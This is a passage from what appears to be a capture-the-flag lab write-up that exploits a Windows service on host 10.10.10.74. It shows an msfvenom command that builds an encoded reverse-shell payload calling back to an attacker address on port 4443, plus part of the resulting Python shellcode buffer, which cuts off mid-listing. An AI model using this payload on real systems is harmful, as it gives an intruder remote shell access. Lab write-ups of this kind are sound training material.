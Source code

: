 Shellcodes: No Result

root@kali:~#
{% endhighlight %}

This time, the manual exploit script "36025.py" was used.<br>
For this purpose, we need to create the payload for reverse shell at first.
{% highlight shell %}
root@kali:~# msfvenom -p windows/shell_reverse_tcp RHOST=10.10.10.74 LHOST=10.10.14.10 LPORT=4443 exitfunc=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3767 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += b"\x47\x42\x39\x75\x34\x4a\x42\x49\x6c\x6b\x38\x75\x32"
buf += b"\x6d\x30\x49\x70\x49\x70\x61\x50\x43\x59\x49\x55\x50"
buf += b"\x31\x55\x70\x30\x64\x44\x4b\x6e\x70\x30\x30\x72\x6b"
buf += b"\x51\x42\x4a\x6c\x64\x4b\x61\x42\x4b\x64\x32\x6b\x30"
buf += b"\x72\x4b\x78\x4a\x6f\x64\x77\x50\x4a\x4b\x76\x6c\x71"
buf += b"\x79\x6f\x46\x4c\x4f\x4c\x33\x31\x61\x6c\x7a\x62\x6c"
buf += b"\x6c\x6d\x50\x77\x51\x48\x4f\x5a\x6d\x6b\x51\x56\x67"
buf += b"\x47\x72\x5a\x52\x61\x42\x72\x37\x74\x4b\x30\x52\x4e"
buf += b"\x30\x42\x6b\x6e\x6a\x6d\x6c\x62\x6b\x50\x4c\x6b\x61"
buf += b"\x62\x58\x6a\x43\x50\x48\x4a\x61\x78\x51\x52\x31\x52"
buf += b"\x6b\x31\x49\x4f\x30\x7a\x61\x37\x63\x42\x6b\x61\x39"
buf += b"\x5a\x78\x37\x73\x6e\x5a\x6e\x69\x44\x4b\x30\x34\x44"
buf += b"\x4b\x7a\x61\x36\x76\x6d\x61\x59\x6f\x44\x6c\x59\x31"
buf += b"\x78\x4f\x6a\x6d\x49\x71\x59\x37\x4c\x78\x57\x70\x51"
buf += b"\x65\x4b\x46\x6d\x33\x61\x6d\x68\x78\x4d\x6b\x61\x6d"
buf += b"\x6f\x34\x31\x65\x7a\x44\x51\x48\x64\x4b\x6f\x68\x6c"
buf += b"\x64\x59\x71\x36\x73\x73\x36\x54\x4b\x7a\x6c\x30\x4b"
buf += b"\x62\x6b\x61\x48\x4d\x4c\x4a\x61\x56\x73\x42\x6b\x6c"
buf += b"\x44\x42\x6b\x6b\x51\x6a\x30\x52\x69\x4f\x54\x4d\x54"
buf += b"\x4f\x34\x6f\x6b\x6f\x6b\x63\x31\x52\x39\x71\x4a\x4e"
buf += b"\x71\x69\x6f\x47\x70\x6f\x6f\x6f\x6f\x71\x4a\x44\x4b"
buf += b"\x4a\x72\x7a\x4b\x52\x6d\x71\x4d\x50\x68\x50\x33\x4e"
buf += b"\x52\x59\x70\x6b\x50\x32\x48\x54\x37\x63\x43\x30\x32"
buf += b"\x4f\x6f\x62\x34\x43\x38\x6e\x6c\x71\x67\x4f\x36\x4b"
buf += b"\x57\x49\x6f\x36\x75\x74\x78\x54\x50\x6b\x51\x6d\x30"
buf += b"\x6b\x50\x4b\x79\x75\x74\x62\x34\x32\x30\x72\x48\x4b"
buf += b"\x79\x53\x50\x30\x6b\x6d\x30\x59\x6f\x68\x55\x52\x30"
buf += b"\x72\x30\x62\x30\x6e\x70\x31\x30\x30\x50\x4d\x70\x32"
buf += b"\x30\x43\x38\x37\x7a\x4c\x4f\x79\x4f\x67\x70\x59\x6f"
buf += b"\x37\x65\x32\x77\x4f\x7a\x4a\x65\x4f\x78\x6b\x5a\x6c"
buf += b"\x4a\x6c\x4e\x4a\x6a\x51\x58\x59\x72\x59\x70\x6a\x71"
